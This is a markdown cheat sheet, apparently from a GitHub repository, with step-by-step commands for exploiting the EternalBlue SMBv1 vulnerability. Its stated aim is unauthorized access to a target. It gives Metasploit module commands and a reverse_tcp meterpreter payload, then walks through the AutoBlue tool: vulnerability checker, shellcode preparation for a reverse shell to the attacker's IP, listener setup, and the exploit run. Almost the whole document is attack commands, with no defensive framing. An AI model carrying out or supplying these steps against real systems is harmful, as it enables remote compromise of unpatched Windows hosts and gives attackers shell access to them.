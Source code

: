# EternalBlue Exploitation

**Purpose:** Exploit the `EternalBlue` vulnerability in SMBv1 to gain unauthorized access to a target system.

## 1. **Manual Exploitation**
   - Use the Metasploit module for EternalBlue:
     ```sh
     use exploit/windows/smb/ms17_010_eternalblue
     ```
   - Set target IP:
     ```sh
     set RHOSTS {IP ADDRESS}
     ```
   - Show available options:
     ```sh
     show options
     ```
   - Show available targets:
     ```sh
     show targets
     ```
   - Run the exploit:
     ```sh
     run
     ```

## 2. **Improving the Shell**
   - Change payload to improve the shell:
     ```sh
     set payload windows/x64/meterpreter/reverse_tcp
     ```
   - Run the exploit with the new payload:
     ```sh
     run
     ```

## 3. **Automation for Exploiting EternalBlue**
   - Search for the AutoBlue tool on GitHub.
   - Clone the AutoBlue repository:
     ```sh
     git clone {Link}
     ```
   - Navigate to the AutoBlue directory:
     ```sh
     cd AutoBlue.....
     ```
   - Run the EternalBlue checker to identify vulnerable targets:
     ```sh
     python eternalblue_checker.py {IP ADDRESS}
     ```
   - Prepare the shellcode:
     ```sh
     cd shellcode/
     ./shell_prep.sh
     y
     Enter your IP Address
     Enter port 4445
     Generate meterpreter shell
     Staged
     ```
   - Prepare the listener:
     ```sh
     cd ..
     ./listener_prep.sh
     Enter your IP address as the LHOST
     Enter ports 4445 and 4446 as the LPORT
     ```
   - Exploit the target using EternalBlue:
     ```sh
     python eternal_blue7.py {TARGET IP}
     ```

